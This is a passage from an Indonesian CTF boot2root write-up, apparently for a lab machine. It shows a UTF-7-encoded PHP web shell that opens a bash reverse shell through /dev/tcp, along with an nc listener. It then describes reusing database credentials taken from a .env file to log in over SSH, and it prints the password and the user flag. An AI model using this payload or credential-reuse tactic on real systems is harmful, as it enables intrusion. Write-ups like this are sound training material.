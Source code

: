 ```php
+ADw-?php exec("bash -i +AD4-& /dev/tcp/10.18.200.127/4444 0+AD4-&1") ?+AD4-
```

* Untuk tanda `<` di-encode ke `UTF-7` menjadi: `+ADw-`. Dan tanda `>` menjadi: `+AD4-` (lebih lengkapnya baca artikel berikut: [https://stackoverflow.com/questions/77609263/convert-utf-8-to-utf-7-in-python](https://stackoverflow.com/questions/77609263/convert-utf-8-to-utf-7-in-python)).
* Tetapi, setelah coba di upload masih gagal, karena kenapa ? karena by default ekstensinya adalah `.asp` (agak menjengkelkan sih ini wkwk). Hal itu dibuktikan dengan fungsi `phpinfo()` yang tetap berjalan meskipun ekstensi filenya `.asp`.
* Oke fix upload dan jangan lupa untuk listen ke port `4444` menggunakan `nc`.

```bash
nc -lnvp 4444
```

* Kalau berhasil, maka kita berhasil mendapatkan **reverse shell**.

#### 2.7. Remote SSH to Target Server

* Setelah berhasil masuk dengan reverse shell, current user pastinya adalah `www-data`.
* Saya coba cari flag usernya, ternyata flag ada di direktori `/home/ayyub/user.txt`.
* File tersebut memiliki permission `r-x,r--,---` (**540**) yang berarti **other tidak bisa membaca file tersebut**.
* Saya coba lakukan enumerasi secara manual dan terpikir untuk melihat file `.env` yang ada di remote server.

<figure><img src=".gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

* Dari informasi kredensial database yang ada di file `.env`, saya mencoba untuk remote SSH menggunakan password yang tertera di file tersebut dan **Alhamdulillah**! saya berhasil login sebagai user `ayyub`.
  * **Username**: ayyub
  * **Password**: B6CHkw$5BTaN%
* Intinya, belum tentu kredensial database tersebut khusus untuk login ke db, bisa saja ke SSH atau service-service lain :).
* Berikut POC setelah saya berhasil remote SSH ke user `ayyub` dan mendapatkan flag usernya:

<figure><img src=".gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

### 3.3. User Flag

<kbd>ab40b8d326bcddb72f674759d6c09ccc</kbd>

***

**Tags**: #ctf, #boot2root
